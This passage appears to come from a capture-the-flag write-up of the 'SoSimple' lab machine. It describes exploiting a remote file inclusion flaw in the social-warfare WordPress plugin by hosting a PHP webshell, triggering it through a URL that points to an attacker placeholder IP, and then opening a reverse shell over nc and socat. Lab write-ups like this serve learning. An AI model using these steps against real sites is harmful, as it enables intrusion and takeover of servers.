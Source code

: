 Found 2 plugins:

- simple-cart-solution (Version 0.2.0)
- social-warfare (Version 3.5.0)

**Searchsploit Result:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a7.png)

Looks like the `social-warfare` suffers a Remote Code Execution vulnerability!

# Initial Foothold

**The [`46794.py`](https://www.exploit-db.com/exploits/46794) python exploit contains 2 things:**

- Remote File Inclusion(RFI) in `wp-admin/admin-post.php?swp_debug=load_options&swp_url=<OUR_HOSTED_RFI_FILE>`
- Specify the payload file that we hosted.

> I think the python exploit feel kinda uncomfortable for me, as I usually exploit RFI manually. Hence I'll do this manually.

1. Create a PHP webshell in `txt` format and host it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a8.png)

2. Go to `http://192.168.129.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://[YOUR_IP]/webshell.txt&cmd=[COMMAND_HERE]` to trigger the webshell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a9.png)

3. Setup a `nc` listener and make a reverse shell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a10.png)

Since the target machine has `python3` installed, I'll use `python3` reverse shell: (From https://www.revshells.com/)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a11.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a12.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a13.png)

**Stable shell via `socat`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a14.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a15.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/SoSimple/images/a16.png)

**local.txt:**
